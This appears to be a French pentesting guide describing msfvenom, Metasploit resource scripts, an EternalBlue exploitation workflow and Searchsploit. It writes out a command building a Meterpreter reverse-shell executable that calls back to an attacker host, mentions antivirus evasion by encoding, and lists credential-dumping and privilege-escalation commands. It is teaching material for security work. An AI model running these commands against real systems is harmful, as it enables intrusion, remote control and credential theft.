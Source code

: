 **msfvenom** - Générateur de payloads
* But : Créer des payloads personnalisés pour diverses plateformes
* Commande de base : `msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe -o payload.exe`
* Prérequis : Installation de Metasploit Framework
* Atouts : Support de nombreux formats, encodage pour évasion AV
* Limites : Signatures connues des antivirus
* Contexte idéal : Création de payloads personnalisés pour exploits manuels

**Resource Scripts** - Automatisation de Metasploit
* But : Automatiser des séquences d'actions dans Metasploit
* Commande de base : `msfconsole -r script.rc`
* Prérequis : Connaissance de la syntaxe des scripts
* Atouts : Reproductibilité, automatisation de tâches complexes
* Limites : Debugging complexe en cas d'erreur
* Contexte idéal : Tests récurrents, démonstrations, formation

#### Workflow typique d'exploitation avec Metasploit

Le workflow d'exploitation avec Metasploit suit généralement une séquence logique qui commence par la recherche d'exploits pertinents. La commande `search` permet d'identifier les modules disponibles pour une technologie ou une vulnérabilité spécifique. Par exemple, `search type:exploit platform:windows smb` liste tous les exploits ciblant le protocole SMB sur Windows.

Une fois l'exploit identifié, la sélection s'effectue via la commande `use`. Par exemple, `use exploit/windows/smb/ms17_010_eternalblue` sélectionne l'exploit EternalBlue. L'étape suivante consiste à configurer les options requises, généralement l'adresse de la cible (`set RHOSTS 192.168.1.10`) et les paramètres du payload (`set PAYLOAD windows/meterpreter/reverse_tcp`).

Avant de lancer l'exploitation, il est recommandé de vérifier la configuration avec la commande `show options` et d'évaluer la compatibilité de l'exploit avec la cible via `check` lorsque cette fonctionnalité est disponible. L'exploitation proprement dite est déclenchée par la commande `exploit` ou `run`.

En cas de succès, Metasploit établit une session avec la cible, généralement un shell ou une session Meterpreter. Cette dernière offre des fonctionnalités avancées de post-exploitation comme l'élévation de privilèges (`getsystem`), la capture d'écran (`screenshot`), ou la collecte d'identifiants (`hashdump`).

Pour une exploitation à grande échelle, les Resource Scripts permettent d'automatiser l'ensemble du processus. Ces scripts contiennent une séquence de commandes Metasploit et peuvent être exécutés via `msfconsole -r script.rc`. Par exemple, un script pourrait automatiser le scan d'un réseau, l'identification de cibles vulnérables à EternalBlue, et leur exploitation séquentielle.

### 3.2 Recherche et utilisation d'exploits avec Searchsploit

Searchsploit constitue l'interface en ligne de commande de la base de données Exploit-DB, permettant de rechercher localement des exploits pour des vulnérabilités spécifiques.

**Searchsploit** - Recherche locale d'exploits
* But : Identifier rapidement des exploits disponibles pour une technologie ou CVE
* Commande de base : `searchsploit apache 2.4.49`
* Prérequis : Installation d'Exploit-DB
* Atouts : Recherche rapide, disponibilité hors ligne
* Limites : Base locale à maintenir à jour
* Contexte idéal : Recherche préliminaire d'exploits
